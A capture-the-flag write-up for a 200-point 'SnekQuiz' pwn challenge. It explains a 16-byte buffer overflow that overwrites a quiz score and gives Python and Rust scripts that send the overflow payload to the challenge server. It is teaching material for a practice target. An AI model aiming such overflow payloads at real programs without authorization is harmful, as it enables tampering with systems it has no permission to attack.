





###SnekQuiz - [pwn] - 200pts
As with each pwning challenge, the first step is to understand how the program works, what input it takes, what output it produces, and see if there are any values that will produce unexpected output.




Ok, so lets see what happens when we provide the correct answers to the questions.




Great! We get some points. But we run into a bit of a problem, we need to get 5 points and we are only asked 3 questions :( oh no!!

Ok, lets try running the program one time, but with some strange values and see what we get.




Ha! Thats strange, where `10` coming from?  Well it seems we have a buffer of 16 characters to work with, anything past that causes on overflow which modified the score.  So, can we write some value which will change the score to 5 and give us the flag?  Lets find out!


I wrote a quick Python script which will send our exploit string to the server.

```python
import socket
import time


# setup the socket stuff
try:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
except socket.error as e:
    print "[!] Failed to initiate socket\n"
    sys.exit()
else:
    print "[+] Socket successfully created\n"

    # connect to the socket
    HOST = "challenge.uiuc.tf"
    PORT = 11343
    sock.connect((HOST, PORT))


# run the exploit
while True:
    output = sock.recv(1024)
    if output == None or output == "":
        break
    else:
        sock.send("aaaaaaaaaaaaaaaa\x05")
        print output

```

And voila!



**Side Note**
I had a bit of time on my hands, so I also wrote the same exploit in `Rust` because why not.

```rust
extern crate bufstream;
use std::net::TcpStream;
use bufstream::BufStream;

// Traits
use std::io::BufRead;
use std::io::Write;


fn main() {
    if let Ok(stream) = TcpStream::connect("challenge.uiuc.tf:11343") {
        let mut buffer = BufStream::new(stream);
        loop {
            let mut output = String::new();
            if output == " " {
                break;
            } else {
                buffer.read_line(&mut output).unwrap();
                buffer.write_all(b"aaaaaaaaaaaaaaaa\x05").unwrap();
                buffer.flush().unwrap();
                print!("{}", output);
            }
        }
    } else {
        println!("[!] Unable to connect!");
    }
}
```


